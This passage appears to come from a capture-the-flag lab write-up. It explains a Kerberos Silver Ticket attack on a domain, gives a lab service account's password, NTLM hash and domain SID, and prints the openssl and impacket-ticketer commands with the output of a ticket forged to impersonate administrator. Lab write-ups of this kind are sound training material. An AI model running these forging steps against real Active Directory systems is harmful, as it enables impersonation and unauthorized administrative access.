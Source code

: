 **Why This Attack Works:**
- Service accounts use their NTLM hash to encrypt service tickets
- If we have the service account's password/hash, we can create valid tickets
- The service validates tickets locally without checking with the KDC
- We can impersonate any user (including Administrator) for that specific service
#### Attack Requirements

To create a Silver Ticket, we need:
1. **Service NTLM Hash**: The NTLM hash of the service account (`sqlsvc`)
2. **Domain SID**: Security Identifier of the domain
3. **Service SPN**: Service Principal Name of the target service
4. **Target User**: User to impersonate in the ticket

Going back to `bloodhound` I find that user `sqlsvc` has a `SPN`set hence I could perform a Silver Ticket attack and access the service with admin privileges

![image](Pasted image 20251021003712.png)
#### Requirements Gathering

- **Service Account**: `sqlsvc`
- **NTLM Hash:** `58655C0B90B2492F84FB46FA78C2D96A` (derived from password `SurenessBlob85`)
- **Domain SID:** `S-1-5-21-3085872742-570972823-736764132` (from BloodHound)
- **Service SPN:** `sqlsvc/dc.sendai.vl` (SQL Server service)
- **Target User:** `administrator`

#### Calculating NTLM Hash
The NTLM hash can be calculated from the plaintext password:
```
echo -n 'SurenessBlob85' | iconv -t utf16le | openssl md4
MD4(stdin)= 58655c0b90b2492f84fb46fa78c2d96a
```
#### Ticket Forging
Creating Silver Ticket for SQL Server access using `impacket-ticketer`:
```
impacket-ticketer -spn 'sqlsvc/dc.sendai.vl' -user sqlsvc -p SurenessBlob85 -domain sendai.vl -domain-sid S-1-5-21-3085872742-570972823-736764132  administrator -nthash 58655C0B90B2492F84FB46FA78C2D96A
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for sendai.vl/administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in administrator.ccache
```
**What This Command Does:**
